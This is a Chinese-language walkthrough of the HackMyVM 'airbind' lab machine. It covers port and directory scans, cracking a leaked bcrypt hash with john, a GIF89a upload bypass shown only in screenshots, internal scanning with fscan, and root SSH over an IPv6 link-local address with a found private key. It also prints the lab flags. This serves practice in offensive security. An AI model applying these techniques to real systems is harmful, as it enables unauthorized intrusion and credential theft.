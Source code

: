```yaml
---
title: HMV_airbind
tags:
  - sec
date: 2024-06-15T11:46:25
lastmod: 2025-09-29T20:51:45
toc: "true"
---
```


## 端口扫描
```shell
~ ➤ nmap -Pn -sT 192.168.124.210 -p-
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-14 23:47 EDT
Nmap scan report for 192.168.124.210
Host is up (0.0047s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE    SERVICE
22/tcp filtered ssh
80/tcp open     http

Nmap done: 1 IP address (1 host up) scanned in 7.38 seconds
```

22端口是filtered...没注意这个细节
![HMV_airbind_image_1](https://img.l1uyun.one/HMV_airbind_image_1.png)

## web_80

### 目录扫描
扫目录扫出来,状态不太行,应该先判断一下优先查看哪些目录
```shell
/images               (Status: 301) [Size: 319] [--> http://192.168.124.210/images/]   
/.php                 (Status: 403) [Size: 280]
/about.php            (Status: 302) [Size: 0] [--> login.php]
/login.php            (Status: 200) [Size: 1924]
/logos.php            (Status: 200) [Size: 1977]
/stats.php            (Status: 302) [Size: 0] [--> login.php]
/index.php            (Status: 302) [Size: 0] [--> login.php]
/.html                (Status: 403) [Size: 280]
/screenshots          (Status: 301) [Size: 324] [--> http://192.168.124.210/screenshots/]
/scripts              (Status: 301) [Size: 320] [--> http://192.168.124.210/scripts/]  
/registration.php     (Status: 302) [Size: 0] [--> login.php]
/includes             (Status: 301) [Size: 321] [--> http://192.168.124.210/includes/] 
/db                   (Status: 301) [Size: 315] [--> http://192.168.124.210/db/]       
/logout.php           (Status: 302) [Size: 0] [--> .]
/styles               (Status: 301) [Size: 319] [--> http://192.168.124.210/styles/]   
/settings.php         (Status: 302) [Size: 0] [--> login.php]
/auth.php             (Status: 200) [Size: 0]
```
### db文件泄露
在db目录下找到一个sqlite的转储文件,使用在线工具解析一下,发现user
![HMV_airbind_image_2](https://img.l1uyun.one/HMV_airbind_image_2.png)

```bash
admin@localhost.com
$2y$10$2XxuEupev6gU1qWoURsIYu7XHNiy7nve9iq7H0mUX/MzFnmvbxC9S


~ ➤ john hhh
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 8 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
admin            (?)     
1g 0:00:00:29 DONE 2/3 (2024-06-14 23:58) 0.03439g/s 99.07p/s 99.07c/s 99.07C/s Smokey..buzz
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```


.....admin,admin弱口令是吧
### GIF89a,文件上传
![HMV_airbind_image_3](https://img.l1uyun.one/HMV_airbind_image_3.png)

![HMV_airbind_image_4](https://img.l1uyun.one/HMV_airbind_image_4.png)

## root1

还是得用原生的终端,tabby又出现卡死了
![HMV_airbind_image_5](https://img.l1uyun.one/HMV_airbind_image_5.png)
进去之后sudo -l,nopasswd/all
### user.txt
应该又是docker环境了
```bash
root@ubuntu:/# find / -type f -name "user.txt" 2>/dev/null
/root/user.txt
root@ubuntu:/# cat /root/user.txt
4408f370877687429c6ab332e6f560d0
```
### 枚举
```bash
root@ubuntu:/# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: eth0@if8: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default qlen 1000
    link/ether dc:a1:f7:82:76:13 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 10.0.3.241/24 brd 10.0.3.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::dea1:f7ff:fe82:7613/64 scope link
       valid_lft forever preferred_lft forever
3: wlan0: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc mq state DOWN group default qlen 1000
    link/ether 02:00:00:00:00:00 brd ff:ff:ff:ff:ff:ff
6: ap0: <BROADCAST,MULTICAST> mtu 1500 qdisc noop state DOWN group default qlen 1000
    link/ether 42:00:00:00:00:00 brd ff:ff:ff:ff:ff:ff
```


体验上还是tabby好一点

```shell
root@ubuntu:/tmp# ./fscan64 -h 10.0.3.241/24

   ___                              _
  / _ \     ___  ___ _ __ __ _  ___| | __
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <
\____/     |___/\___|_|  \__,_|\___|_|\_\
                     fscan version: 1.8.3
start infoscan
(icmp) Target 10.0.3.1        is alive
(icmp) Target 10.0.3.241      is alive
[*] Icmp alive hosts len is: 2
10.0.3.241:80 open
[*] alive ports len is: 1
start vulscan
[*] WebTitle http://10.0.3.241         code:302 len:0      title:None 跳转url: http://10.0.3.241/login.php
[*] WebTitle http://10.0.3.241/login.php code:200 len:1924   title:Wallos - Subscription Tracker
已完成 1/1
[*] 扫描结束,耗时: 7.077390677s
root@ubuntu:/tmp#
```
## id_rsa+ipv6访问
好吧,看了一下群主的wp,原来是ipv6
进去之后得到id_rsa,然后使用ipv6地址来ssh连接

.....四个ipv6地址,尝试了三次都没中...
```shell
	➜  workspace  ssh -i id_rsa root@fe80::a00:27ff:fe85:25f9%eth5
Linux airbind 6.1.0-18-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.76-1 (2024-02-01) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
root@airbind:~# cat root.txt
2bd693135712f88726c22770278a2dcf
root@airbind:~#
```
## l1uyun
第一次接触涉及ipv6的靶场......
刚刚思路已经到了尝试id_rsa,但是没有想到是得用ipv6..
fscan的时候是扫描出来了一些ipv6地址..但是我没有往这个方向去想...

